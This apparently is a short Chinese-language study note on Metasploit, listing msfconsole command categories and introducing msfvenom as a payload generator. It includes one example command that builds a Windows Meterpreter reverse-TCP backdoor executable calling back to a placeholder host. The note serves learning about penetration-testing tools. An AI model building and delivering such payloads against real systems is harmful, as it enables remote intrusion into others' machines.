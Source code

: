 ```yaml
---
title: metasploit（1）
date: 2020-03-09 15:13:28
tags:
	- 渗透

---
```


1

命令分类（直接help查看到的）

```
核心命令
	cd 当前机器上切换目录。
	connect 连接到目标机器。
	get/set 获取或设置变量
	load 载入一个插件。
	repeat 重复一系列的命令。
	sessions 查看活跃的会话。
模块命令
	advanced 显示当前模块的高级特性。
	back 这个就是从当前模块退出去。这样来切换用另外一个模块。
	show 后面跟参数，例如options。
	search 查看模块。
	use使用模块。
job命令
	jobs 当前当前任务。
	kill杀掉一个job。
	
资源脚本命令
	就2个。
	makerc
	resource
	
数据库命令
	hosts 数据库里所有的主机。例如我们刚刚进行了一次扫描，则扫描的主机信息可以看到。
	vulns 查看漏洞。
开发者命令
辅助命令
	run
	exploit
	这2个命令最常用。exploit是run的别名。
```

代码在这里：

https://gitlab.com/kalilinux/packages/metasploit-framework



msfvenom

这个是什么？

从help信息看，是一个payload生成器。

用法是这样：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
```

msfvenom是取代之前的msfpayload和msfencode这2个命令的。

payload就是攻击负载，例如是一个后门程序。



参考资料

1、官方文档

https://metasploit.help.rapid7.com/docs

2、Metasploit 平常『习惯』的养成

https://www.bodkin.ren/index.php/archives/458/